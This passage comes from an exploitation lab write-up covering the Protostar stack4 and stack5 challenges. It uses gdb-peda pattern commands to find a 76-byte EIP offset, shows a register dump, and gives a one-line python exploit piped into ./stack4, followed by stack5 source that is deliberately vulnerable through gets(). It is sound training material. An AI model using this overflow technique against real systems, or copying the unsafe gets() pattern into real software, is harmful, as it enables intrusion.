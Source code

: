 in the peda extension of gdb we can use "pattern create" to create a string of characters that will allow us to idenitify which section of the string has overwritten the EIP register.
```
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
```
Now after crashing the program with this string we can see the EIP register has been overwritten with "AA4A".

```
[----------------------------------registers-----------------------------------]
EAX: 0xffffd120 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EBX: 0x0 
ECX: 0xf7faa580 --> 0xfbad2288 
EDX: 0xffffd184 --> 0x0 
ESI: 0xf7faa000 --> 0x1dfd6c 
EDI: 0xf7faa000 --> 0x1dfd6c 
EBP: 0x65414149 ('IAAe')
ESP: 0xffffd170 ("AJAAfAA5AAKAAgAA6AAL")
EIP: 0x41344141 ('AA4A')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
```
Gdb-peda also offers the "pattern offset" command to show that the offset to overwriting EIP is 76 characters.

```
gdb-peda$ pattern offset AA4A
AA4A found at offset: 76
```
With all of this information we can change the flow of the code using the exploit code below

### Exploit Code
```
python -c "print 'A' * 76 + '\xf4\x83\x04\x08'" | ./stack4
```


## Stack5
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
In this challenge, we will be using the code above to perform a basic stack based buffer overflow exploit.
